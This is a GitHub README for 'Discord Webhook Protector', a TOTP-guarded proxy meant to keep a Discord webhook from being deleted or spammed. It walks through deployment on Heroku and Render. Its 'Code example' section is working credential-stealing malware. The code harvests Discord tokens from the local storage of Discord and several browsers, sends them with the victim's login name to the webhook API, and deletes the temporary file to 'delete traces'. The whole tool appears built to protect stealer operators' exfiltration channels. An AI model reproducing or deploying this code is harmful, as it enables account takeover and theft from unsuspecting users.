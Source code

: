 

<h1 align="center">
  <a id="top"></a>Discord Webhook Protector 🔰
</h1>

<p align="center"> 
  <kbd>
<img src="https://raw.githubusercontent.com/mahyarx/images/master/DWP/DWP.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/DWP?style=flat-square"/>
  <img src="https://img.shields.io/github/last-commit/Rdimo/DWP?style=flat-square"/>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_DWP&metric=ncloc"/>
  <img src="https://img.shields.io/github/stars/Rdimo/DWP?color=444444&label=Stars&style=flat-square"/>
  <img src="https://img.shields.io/github/forks/Rdimo/DWP?color=444444&label=Forks&style=flat-square"/>
</p>


<h2 align="center">
  DWP was made by

Love ❌ code ✅

</h2>

---


## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://cheataway.com/invite)
- [🎉・Setup the Api with Heroku](#heroku)
- [🎉・Setup the Api with Render](#render)
- [🧪・Testing the Api](#testing)
- [🟢・Keeping It alive 24/7](#alive)
- [⚙ ・Settings](#settings)
- [🎈・Code example](#code-example)

## <a id="features"></a>🔰 〢 Features

```
> Easy to setup!
> Configurable!
> Completely *free* and stays online *24/7*
> Accepts json, discord embeds and files!
> Ratelimits unauthorized requests!
> Accepting only post requests!
> Impossible to delete webhook
> Webhook protected by totp so very hard to spam webhook even if they http debug!
```
---

### <a id="heroku"></a>📁 〢 Hosting the API with Heroku

1. Create an account on [Heroku.com](https://heroku.com) (Yes all of this is **free**)
2. Install [nodejs](https://nodejs.org/en/), [heroku cli](https://devcenter.heroku.com/articles/getting-started-with-nodejs#set-up), and [git](https://git-scm.com/)
3. Open [config.json](https://github.com/mahyarx/DWP/blob/main/config.json) and put in your webhook at the top
4. Now you need a key, open cmd in the directory and type the following ⇣
```sh-session
$ cd test
$ py keyGen.py
>>> Your key is: ...
>>> Copied key to clipboard!
```
5. Paste your generated key in [config.json](https://github.com/mahyarx/DWP/blob/main/config.json)
6. Open a new cmd in the directory and type `npm i`
7. Now follow these steps carefully ⇣

```sh-session
$ heroku login
...
$ git init
$ git add .
$ git commit -m "first Webhook protector api commit"
...
$ heroku create
...
$ git push heroku main
...
$ heroku ps:scale web=1
...
$ heroku domains
...
```

8. Done! After typing `heroku domains` you should get something in the console like **shrouded-fjord-36366.herokuapp.com**. This is your api with your undeletable/unspammable webhook!

#### If you get an error when doing `"git push heroku main"` that looks like this

```sh
$ first issue error: failed to push some refs to 'https://git.heroku.com/app-name.git'
```
Then run `"git push heroku master"`

ㅤ

If you make some changes in the code and want to update the api on heroku, simply run `npm run deploy` to push out the updates \
If any bugs occur please report them or try and see if restarting the app by typing `heroku restart` works!
<center><a href=#content> Back To Content </a> </center>

---

### <a id="render"></a>📁 〢 Hosting the API with Render

1. Setup an account on [Render](https://dashboard.render.com/register)
2. [Fork](https://github.com/mahyarx/DWP/fork) This Repo **(Dont Forget to Make it Private And Edit the config.js File)**
3. Go to [This](https://dashboard.render.com/select-repo?type=web) Link and connect your GitHub Account
4. Select the repo you just made 
  ![image](https://user-images.githubusercontent.com/86944806/170194672-2a21aed0-cc1b-4efb-88d5-c835034c2e70.png)
5. On the next screen enter a uniqe name for it **(this name will be in your api)**
6. Select **Node** as your environment
![image](https://user-images.githubusercontent.com/86944806/170195377-fbc7a054-5b8b-4255-aaea-5a209d6c65af.png)
7. Scroll down and click on ![image](https://user-images.githubusercontent.com/86944806/170195784-9df18d5f-c8e5-4694-bafc-57e59fe0ee0e.png)
8. Thats it! It will build it in some time now **(Approx 5 mins)**
9. Your api url should look like this **(https://youruninqename.onrender.com)**
![image](https://user-images.githubusercontent.com/86944806/170196327-c44fa2c1-619f-43c4-b5aa-a121a98493bf.png)

<center><a href=#content> Back To Content </a> </center>

### <a id="testing"></a> 🧪〢Testing the Api

For testing that your api works, open test folder and edit the test .py file by putting your api url and passsword then open cmd in the directory and type the following ⇣

```sh-session
$ cd .\test
...
$ py test.py
```

It should've made a post request to the api uploading itself and sending "it works!" to the webhook
<center><a href=#content> Back To Content </a> </center>

---

### <a id="alive"></a>🟢〢Keeping It Alive 24/7

Free hosting will sleep your API after inactivity. It is 15 mins for Render. Now ofc we aren't gonna keep using our webhook so we can use a site like [Statuscake](statuscake.com) which is free.

***Note:** Heroku gives only 550 hours for free in a month whereas Render gives 750 hours (There are 744 hours in a month). So If u use this method on heroku then your api will be offline for last 8 days of the month. (Unless You have more hours on heroku by entering your credit card or buying) And so I recommend you use Render the host the API*

1. Sign up on [Statuscake](https://app.statuscake.com/Try)
2. Create a new [UpTime Test](https://app.statuscake.com/AddSite.php)
![image](https://user-images.githubusercontent.com/86944806/170201838-fc68aa1a-a554-4786-856b-ccf6b7d6170a.png)
3. Head down to ![image](https://user-images.githubusercontent.com/86944806/170203552-041cf979-c32b-4ed6-9051-f6d738949027.png) and follow what I've done. **(Don't Forget to❌the code 401)**
![image](https://user-images.githubusercontent.com/86944806/170203426-ed45ac96-d46c-4176-b977-e3164c57e6e9.png)
4. Scroll down and click on ![image](https://user-images.githubusercontent.com/86944806/170204712-47185645-0e81-4538-9829-5fca1ffa9e20.png)
5. Add if u want though its not needed **(click ok if u don't want to add)**
![image](https://user-images.githubusercontent.com/86944806/170204283-6de3d140-ef94-4cbf-88e0-1ad8da0872b8.png)
6. Thats it! Your webhook is now gonna be live 24/7
<center><a href=#content> Back To Content </a> </center>

---

### <a id="settings"></a> ⚙ 〢 Settings

The config and what the options do

```json
{
  "webhook": "https://discord.com/api/webhooks/0123456789/abcdefghijklmnopqrstuvwxyz", //your discord webhook
  "pass32": "K4ZVUQTSIRMDOWKRGU2WQQTZJM======" /*a key encoded in base32, use the keyGen in ./test or see https://github.com/bellstrand/totp-generator#how-to-use for more*/,
  "ratelimit": true, //if you want it to ratelimit unauthorized requests or not
  "rateLimitTimeout": 30000, //amount of milliseconds an ip gets ratelimited (Default: 30000 --> 30 seconds)
  "port": 3000 //port
}
```
<center><a href=#content> Back To Content </a> </center>

---

### <a id="code-example"></a>🎈 〢 Code example

Example use of the api hosted on heroku

```py
import os, re
import requests
from pyotp import TOTP

api = "https://your-heroku-app-name.herokuapp.com" #the name of your app will probably be something like https://frozen-beach-72554.herokuapp.com

pass32 = 'K4ZVUQTSIRMDOWKRGU2WQQTZJM======' #needs to be same key as the one in your api
key = TOTP(pass32).now()

local = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')
_file = os.getenv('temp') + os.sep + 'tokens.txt'

paths = {
    'Discord': roaming + '\\Discord\\Local Storage\\leveldb',
    'Discord Canary': roaming + '\\discordcanary\\Local Storage\\leveldb',
    'Discord PTB': roaming + '\\discordptb\\Local Storage\\leveldb',
    'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb',
    'Opera': roaming + '\\Opera Software\\Opera Stable\\Local Storage\\leveldb',
    'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb',
    'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb'
}
for platform, path in paths.items():
    if not os.path.exists(path):
        continue
    for file_name in os.listdir(path):
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
            continue
        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for token in re.findall(regex, line):
                    with open(_file, 'a') as f:
                        f.write(token)

requests.post(api, headers={"Authorization": key}, data={"content": f'Successfully grabbed tokens from {os.getlogin()}:'}) #send the text to webhook
requests.post(api, headers={"Authorization": key}, files={"upload_file": open(_file, 'rb')}) #send text file with tokens in it to the webhook
os.remove(_file) #delete traces
```

> 

<p align="center"><a href=#top>Back to Top</a></p>
